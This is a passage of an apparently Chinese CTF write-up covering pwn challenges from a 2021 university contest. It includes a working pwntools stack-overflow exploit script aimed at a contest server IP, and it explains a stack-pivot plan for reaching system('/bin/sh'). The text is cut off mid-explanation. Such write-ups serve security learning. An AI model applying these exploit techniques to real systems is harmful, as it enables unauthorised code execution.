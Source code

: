 ```yaml
---
title: CUMTCTF 2021国庆赛WP（部分）
date: 2021-11-22 23:44:13
tags: [CTF,Pwn,Misc,Python]
categories: 
 - CTF
cover: https://res.cloudinary.com/sycamore/image/upload/v1682435935/Typera/2023/04/54a2923a541fe0c86555a91b264f4221.png
---
```


## PWN

### pwn1

nc 连上 直接cat flag

### pwn2
经典栈溢出
![image-20230425230815230](https://res.cloudinary.com/sycamore/image/upload/v1682435298/Typera/2023/04/2d25d53292a7b5602fd11b9e1127bcf1.png)

```python
from pwn import *

#r=process("./pwn2")
r=remote('1.15.81.218',10001)

p=b'a' * 72 + p64(0x400596)
r.sendline(p)

r.interactive()
```

直接传就行了...
### pwn3
开了NX保护，没开金丝雀


![image-20230425230949625](https://res.cloudinary.com/sycamore/image/upload/v1682435393/Typera/2023/04/0ac847eebeec27d62e811700f99b5b71.png)有个echo flag，感觉像是那么回事，实际上没用,

所以还是得通过system函数来搞

![image-20230425230831039](https://res.cloudinary.com/sycamore/image/upload/v1682435314/Typera/2023/04/b3a274b13eede296b71c54165bc95d53.png)

这里s大小是0x28，所以只能溢出0x8字节，不够写太长的，但是这里可以读两次，所以思路是第一次泄露ebp地址，第二次写入system(‘/bin/sh’)，然后用leave;ret栈劫持s，执行system('/bin/sh')

要劫持s要知道s的地址，可以通过动调知道ebp到s的距离，然后计算

ebp到s的距离为0xffffc1f8 - 0xffffc1c0 = 0x38

所以ebp: 
